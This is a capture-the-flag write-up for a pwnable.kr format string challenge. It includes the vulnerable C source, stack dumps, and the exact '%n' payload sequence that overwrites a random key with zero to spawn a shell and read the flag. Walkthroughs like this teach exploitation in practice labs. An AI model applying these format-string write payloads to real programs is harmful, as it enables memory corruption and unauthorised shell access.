

For this pwnable, we are given a program and its corresponding source code:


#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}


Running checksec on it reveals that partial RELRO and NX are enabled.


gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


Note that the `alloca()` call randomizes the stack addresses because it uses `key` in the calculation of its argument.

## Vulnerability
The vulnerability is clear in the source code. 
The program asks the user for input 4 times, each time storing the data from `stdin` in the global variable `char buf[100]` which is located in the **.bss section** and printing out `buf` each time by calling `printf(buf)`.
The `printf(buf)` introduces a format string vulnerability that allows users to read arbitrary values off the stack and to write arbitrary values to stack pointers.


rh0gue@vexillum:~/Documents/pwnable.kr/fsb$ python -c 'print ".%x"*20' | ./fsb
Give me some format strings(1)
.804a100.64.0.0.0.0.0.0.8048870.0.0.ffffd5a8.ffffdff1.fffed3f0.fffed3f4.0.0.ffffd478.8048791.0


## Exploitation
Exploiting this format string bug is a little tricky. 
We want to bypass the `pw == key` check by overwriting the `key` with our chosen value.

Unfortunately, because the user input is stored in the **.bss** and not on the stack, we can't just directly "hardcode" an address through stdin and overwrite its pointer value. Whatever we write through stdin will be stored in the *.bss* section and will therefore not show up when we pop values off the stack by using the "%x" format specifier. 
However, if we look at the stack when the vulnerable `printf()` is called, we can see something interesting.


gdb-peda$ context stack 25
--More--(25/25)
[------------------------------------stack-------------------------------------]
0000| 0xffffb9b0 --> 0x804a100 ("AAAA\n")
0004| 0xffffb9b4 --> 0x804a100 ("AAAA\n")
0008| 0xffffb9b8 --> 0x64 ('d')
0012| 0xffffb9bc --> 0x0 
0016| 0xffffb9c0 --> 0x0 
0020| 0xffffb9c4 --> 0x0 
0024| 0xffffb9c8 --> 0x0 
0028| 0xffffb9cc --> 0x0 
0032| 0xffffb9d0 --> 0x0 
0036| 0xffffb9d4 --> 0x8048870 ("/bin/sh")
0040| 0xffffb9d8 --> 0x0 
0044| 0xffffb9dc --> 0x0 
0048| 0xffffb9e0 --> 0xffffdd90 --> 0x0 
0052| 0xffffb9e4 --> 0xffffdfcd --> 0x6f682f00 ('')
0056| 0xffffb9e8 --> 0xffffba00 --> 0x0 
0060| 0xffffb9ec --> 0xffffba04 --> 0x0 
0064| 0xffffb9f0 --> 0x0 
0068| 0xffffb9f4 --> 0x0 
0072| 0xffffb9f8 --> 0xffffdc98 --> 0x0 
0076| 0xffffb9fc --> 0x8048791 (<main+178>:     mov    eax,0x0)
0080| 0xffffba00 --> 0x0 
0084| 0xffffba04 --> 0x0 
0088| 0xffffba08 --> 0x0 
0092| 0xffffba0c --> 0x0 
0096| 0xffffba10 --> 0x0 


We see that on the stack there are pointers to other address on the stack. So, while we can't "hardcode" any arbitrary address in our user input, we can still use one of these aforementioned pointers to write an arbitrary address onto the stack.

In other words, we can use the "%n" format specifier in combination with **direct parameter access** to access the 15th argument on the stack, `0xffffba04`, and write the number of chars used in our input to that address. 

We can choose to write the address of `key` to that stack location, since we want to control its value. 

In order to do that, we will need to include 0x804a060, or 134520928, characters in our input.

After writing the address of `key` onto the stack, we will want to write a value to that address. We can write `0x00000000` to that address again using **direct parameter access**; only now, the argument we want to access is the 21st argument on the stack.

Doing this overwrites the upper half, or 4 bytes, of the key. We can then just repeat these steps to overwrite the lower half of the key, except we will want to include 134520932 characters in our input to write to address `0x804a064`. 

Finally, we can pass the `pw == key` check by inputting `0` as our key.

The following inputs will spawn a shell

## Solution


%134520928x%15$n
%21$n
%134520932x%15$n
%21$n
0

[...]

Give me some format strings(4)
%21$n

0932x
Wait a sec...
key : 
0
Congratz!
$ id
uid=1028(fsb) gid=1028(fsb) egid=1029(fsb2) groups=1028(fsb)
$ ls
flag  fsb  fsb.c
$ cat flag
Have you ever saw an example of utilizing [n] format character?? :(


